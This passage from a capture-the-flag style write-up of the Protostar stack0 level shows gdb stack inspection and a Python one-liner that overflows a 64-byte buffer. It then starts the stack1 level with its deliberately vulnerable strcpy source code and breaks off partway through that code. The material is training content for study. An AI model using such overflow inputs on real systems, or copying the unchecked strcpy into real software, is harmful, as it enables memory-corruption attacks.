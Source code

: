 ``` shell
(gdb) break *0x08048411
Breakpoint 1 at 0x8048411: file stack0/stack0.c, line 13.
(gdb) r
Starting program: /opt/protostar/bin/stack0
AAAAAAAAAA

Breakpoint 1, main (argc=1, argv=0xbffff854) at stack0/stack0.c:13
...
(gdb) x/24wx $esp
0xbffff740:     0xbffff75c      0x00000001      0xb7fff8f8      0xb7f0186e
0xbffff750:     0xb7fd7ff4      0xb7ec6165      0xbffff768      0x41414141
0xbffff760:     0x41414141      0x08004141      0xbffff778      0x080482e8
0xbffff770:     0xb7ff1040      0x08049620      0xbffff7a8      0x08048469
0xbffff780:     0xb7fd8304      0xb7fd7ff4      0x08048450      0xbffff7a8
0xbffff790:     0xb7ec6365      0xb7ff1040      0x0804845b      0x00000000
(gdb) x/wx $esp+0x5c
0xbffff79c:     0x00000000
```

After a quick inspection into the stack using `gdb`, our input is stored at `0xbffff75c`, and if you take a closer look, towards the end, you will find the **modified** variable which is 0. So, I just need to overflow the input into  the **modified** variable and we are done. 

Our input's length should be 16 * 4 + 1 byte of data, which is one byte more than the size of **buffer** variable.

```shell
user@protostar:/opt/protostar/bin$ python -c 'print "A" * (16 * 4) + "B"' | /opt/protostar/bin/stack0
you have changed the 'modified' variable
```

## Stack 1

Description:

>This level looks at the concept of modifying variables to specific values in the program, and how the variables are laid out in memory.<br>
>This level is at /opt/protostar/bin/stack1<br><br>
>Hints:<br>
>If you are unfamiliar with the hexadecimal being displayed, “man ascii” is your friend.<br>
>Protostar is little endian

Source code:

``` c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];

  if(argc == 1) {
      errx(1, "please specify an argument\n");
  }

  modified = 0;
  strcpy(buffer, argv[1]);

  if(modified == 0x61626364) {
      printf("you have correctly got the variable to the right value\n");
  } else {
```